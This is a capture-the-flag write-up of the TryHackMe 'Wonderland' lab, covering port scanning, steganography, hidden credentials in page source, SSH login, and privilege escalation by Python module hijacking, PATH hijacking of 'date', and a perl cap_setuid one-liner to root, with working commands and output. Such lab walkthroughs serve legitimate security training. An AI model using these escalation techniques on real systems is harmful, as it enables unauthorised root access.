


# TryHackMe WonderLand


## Scanning & Enumeration :

Nmap is a free and open source utility for network discovery and security auditing. With this tool we can search for open ports on a target machine.

```bash
$nmap -sVC 10.10.239.191   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-29 08:48 EDT
Nmap scan report for 10.10.239.191 (10.10.239.191)
Host is up (0.078s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8e:ee:fb:96:ce:ad:70:dd:05:a9:3b:0d:b0:71:b8:63 (RSA)
|   256 7a:92:79:44:16:4f:20:43:50:a9:a8:47:e2:c2:be:84 (ECDSA)
|_  256 00:0b:80:44:e6:3d:4b:69:47:92:2c:55:14:7e:2a:c9 (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
|_http-title: Follow the white rabbit.
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

* Port 22- ssh

Here we are able to see that our SSH port is open. This port isn't too vulnerable unless we have found someones credentials. Se we will not mess with it.

* Port 80- http

It is here were we find a webservice. Lets poke around and see if there is anyting interesting.

 

See that we have a picture to upload and see what's in it !! 

to find out what is in it finds use tool name "***Steghide***"

```bash
$ls                                            ✔  08:51:29   
white_rabbit_1.jpg                                                      
$steghide extract -sf white_rabbit_1.jpg       ✔  08:51:30   
Enter passphrase: 
wrote extracted data to "hint.txt".                                                             
$cat hint.txt                                  ✔  08:51:37   
follow the r a b b i t   
```

After printing the content of hint.txt (cat hint.txt), we'll find the hint "follow the r a b b i t".

* > I didn't know what that could mean. But after thinking for a bit, i remembered that the gobuster scan detected a page called "r". After adding a, `a` to the url `http://IP/r/a/` i would a find another quote, and after adding the word "rabbit" to the url `http://IP/r/a/b/b/i/t/` i would find another picture and some text. I decided to look in the sourcecode and boom, there was some credentials to the user "alice" on the ssh server.

Let's try it !!



* Let's see what's in source code :

```html
<!DOCTYPE html>

<head>
    <title>Enter wonderland</title>
    <link rel="stylesheet" type="text/css" href="/main.css">
</head>

<body>
    <h1>Open the door and enter wonderland</h1>
    <p>"Oh, you’re sure to do that," said the Cat, "if you only walk long enough."</p>
    <p>Alice felt that this could not be denied, so she tried another question. "What sort of people live about here?"
    </p>
    <p>"In that direction,"" the Cat said, waving its right paw round, "lives a Hatter: and in that direction," waving
        the other paw, "lives a March Hare. Visit either you like: they’re both mad."</p>
    <p style="display: none;">alice:*****************************************</p>
    
</body>
```

We found a username and password ,Could be for ssh .


## Login :

* We have access to the target machine with user "Alice":

```bash
$ssh alice@10.10.239.191           ✔  1m 29s    08:51:41   
The authenticity of host '10.10.239.191 (10.10.239.191)' can't be established.
ED25519 key fingerprint is SHA256:Q8PPqQyrfXMAZkq45693yD4CmWAYp5GOINbxYqTRedo.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.239.191' (ED25519) to the list of known hosts.
alice@10.10.239.191's password: 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-101-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Oct 29 12:53:36 UTC 2022

  System load:  0.1                Processes:           84
  Usage of /:   18.9% of 19.56GB   Users logged in:     0
  Memory usage: 14%                IP address for eth0: 10.10.239.191
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon May 25 16:37:21 2020 from 192.168.170.1
alice@wonderland:~$
```

* After checking the hint given by the room “Everthing is upside down here” i tried to access /root.

```bash
alice@wonderland:~$cat /root/user.txt
alice@wonderland:~$thm{****************************** at!}
```

> In order to elevate our privileges we can check "sudo -l":

```bash
alice@wonderland:~$sudo -l
[sudo] password for alice: 
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

* in The Script `walrus_and_the_carpenter.py` , There was nothing interesting in the python script, besides it imported a relative path "random", which can be exploited :

```python
import random 
poem = """The sun was shining on the sea,.....
....."""
for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```

* I decided to try to spawn a shell, by creating a file called `random.py` in the same directory as the file. The script would eventuelly run my `random.py` script, as it imported `random`.

```python
import pty                                                                                      
pty.spawn("/bin/bash")
```

List the contents of the directory to make sure the scripts are in the same directory:

Note that we need to specify user “rabbit” since he is the one with sudo permissions to run that python script.

```bash
alice@wonderland:~$nano random.py
alice@wonderland:~$sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
rabbit@wonderland:~$ 
```

> To further our privileges we will try to take advantage of a binary inside “rabbit” home directory.
>
> I could now `strings` or use `cutter` to debug the program. I chose to use `strings` to being with, and it worked fine. I found `/bin/echo -n 'Probably by ' && date --date='next hour' -R` on one of the lines, which is the code the executable file is trying to run. `date` is also a relative path, so it could be exploited similar to the `random.py` exploit.



* I created a file called `date` with the content: ``/bash/bin`` , I marked the file as an executable with the command `chmod +x date`.

Running the file now will not work, since the file is not a python script like the `random` one. I had to change the path enviroment variable. I did by using the following command:

```shell
$ export PATH=/home/rabbit:$PATH
```

Now just run the script for change user :

```bash
rabbit@wonderland:/home/rabbit$ export PATH=/home/rabbit:$PATH
rabbit@wonderland:/home/rabbit$ ./teaParty 
Welcome to the tea party!
The Mad Hatter will be here soon.
Probably by hatter@wonderland:/home/rabbit$ 
```

---

# Root:

We found i file name [``password.txt``] is the password of the user hatter :

```bash
hatter@wonderland:~$ls
password.txt 
hatter@wonderland:~$cat password.txt
*********************
```

So i decided to use the script linpeas.sh. I downloaded the script on the machine by spinning up a webserver on my local machine and then using wget on the target machine:

```bash
$python3 -m http.server                                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

*Target machine:*

```bash
$wget http://10.9.4.12:8000/linpeas.sh
--2022-10-29 13:20:09--  http://10.9.4.12:8000/linpeas.sh
Connecting to 10.9.4.12:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 765823 (748K) [text/x-sh]
Saving to: ‘linpeas.sh‘
linpeas.sh         100%[=============================>] 747.87K  83.7KB/s    in 8.6s  
2022-10-29 13:20:18 (87.1 KB/s) - ‘linpeas.sh’ saved [765823/765823]
rabbit@wonderland:/tmp$chmod +x linpeas.sh 
```

Linpeas returned with a lot of information, but only this was interesting for me:

```bash
....
Files with capabilities:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
.....
```


* > Using [gftobins](https://gtfobins.github.io/gtfobins/perl/) i could find a exploit that would grant me root using perl. I ran the Capabilities exploit:
  >

```bash
hatter@wonderland:/home/alice$/usr/bin/perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
# id
uid=0(root) gid=1003(hatter) groups=1003(hatter)
# ls 
random.py  root.txt  walrus_and_the_carpenter.py
# cat root.txt
thm{***************************************** at!}
```


*Finally ,we finished this Machine.*

# Congratulations!!
